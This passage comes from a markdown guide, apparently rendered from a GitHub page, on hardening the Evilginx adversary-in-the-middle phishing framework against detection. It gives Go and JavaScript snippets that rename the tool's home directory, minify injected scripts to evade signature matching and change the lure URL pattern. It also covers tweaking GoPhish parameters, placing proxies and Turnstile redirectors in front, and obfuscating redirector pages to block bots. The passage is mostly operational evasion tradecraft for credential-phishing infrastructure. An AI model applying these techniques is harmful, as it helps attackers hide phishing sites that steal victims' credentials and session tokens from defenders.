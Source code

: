         // comment function at line 1791-1793
        func (p *HttpProxy) getHomeDir() string {
        	return strings.Replace(HOME_DIR, ".e", "X-E", 1)
        }
        
        // comment line 52-54
        const (
        	HOME_DIR = ".evilginx"
        )
        ```            
    - To Modify Unauth redirect static contents, Search for `<html>` in core/http_proxy.go file and modify the html code to remove any static signatures.
    - Also to avoid the static injected js code signature detection , You can modify the code as below
        - Make sure to add "[github.com/tdewolff/minify/js](http://github.com/tdewolff/minify/js)" in imports
            
            ```jsx
            	re := regexp.MustCompile(`(?i)(<\s*/body\s*>)`)
            	var d_inject string
            
            	if script != "" {
            		minifier := minify.New() // "github.com/tdewolff/minify/js"
            		minifier.AddFunc("text/javascript", js.Minify)
            		obfuscatedScript, err := minifier.String("text/javascript", script)
            		if err != nil {
            			// Handle error - Obfuscation failed
            			d_inject = "<script" + js_nonce + ">" + "function doNothing() {var x =0};" + script + "</script>\n${1}"
            		}
            		d_inject = "<script" + js_nonce + ">" + "function doNothing() {var x =0};" + obfuscatedScript + "</script>\n${1}"
            		//d_inject = "<script" + js_nonce + ">" + "function doNothing() {var x =0};" + script + "</script>\n${1}"
            
            	} else if src_url != "" {
            		d_inject = "<script" + js_nonce + " type=\"application/javascript\" src=\"" + src_url + "\"></script>\n${1}"
            	} else {
            		return body
            	} 
            ```
            
    - Modify core/cert.db file as well
    - Change `“rid”` for gophish.
    - Use nginx , caddy or other proxies infront of evilginx.
    - Use Redirectors
        - Use cloudflare turnstile as evilginx redirector and block bots.
            - https://github.com/kgretzky/evilginx2/blob/master/redirectors/turnstile/index.html
        - Obfuscate html/js based redirectors
            - Suspicious HTTP User agents list : https://github.com/mthcht/awesome-lists/blob/main/Lists/suspicious_http_user_agents_list.csv
            - https://github.com/DosX-dev/WebSafeCompiler
        - Bot detection methods used by gabagool phishing kit : https://medium.com/@traclabs_/aitm-phishing-hold-the-gabagool-analyzing-the-gabagool-phishing-kit-531f5bbaf0e4
        - Meta html tag for redirection
            - `<meta http-equiv="refresh" content="5;url=https://example.com">`
    - Change default lure url pattern which is random string of length 8.
      ```markdown
         // Line 728 in core/terminal.go file
				l := &Lure{
					Path:     "/" + GenRandomString(8),
					Phishlet: args[1],
				}
        ```     
    - Rewrite URLs on Phishing Pages to avoid detection through URL Path pattern matching (by Kuba). [This Feature not available in evilginx Public Version, You have to implement it yourself.]